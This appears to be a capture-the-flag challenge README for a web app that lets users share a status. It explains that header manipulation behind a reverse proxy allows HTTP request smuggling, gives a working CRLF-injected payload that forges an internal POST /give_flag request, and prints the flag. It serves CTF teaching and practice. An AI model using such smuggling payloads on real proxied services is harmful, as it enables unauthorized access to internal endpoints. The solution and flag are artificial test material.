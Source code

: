 ## Background

    Author: spipm
    Category: Webservices
    Difficulty: Medium to Hard

## Technical

It is a simple web app that allows users to share their status. There are 'special types' that are passed in headers, and the headers can be manipulated to perform request smuggling, because of the reverse proxy.

## Story

A screen shows a document labeled  Optimal_human_interaction_design.ppt.  "What's that design about?" you ask.

The bot replies "It is called 'social media': We'll have everyone send messages to each other on a public forum, with messages no longer than 200 characters. This will force them to think deep and write convincing arguments with as little words as possible, to prevent humans from acting pompous, egoistic or conceited."

Do you see any way this can go wrong?

<img src="./social.jpg" width="500">

## Exploit

One can smuggle a request using a command like:

```
special_type=Content-Length&special_val=57&stuff=foobar%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.2:2000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=rocket88FHhC
```

## Flag

brck{WhY_4r3_S0c1alZ_S0_SmuG}
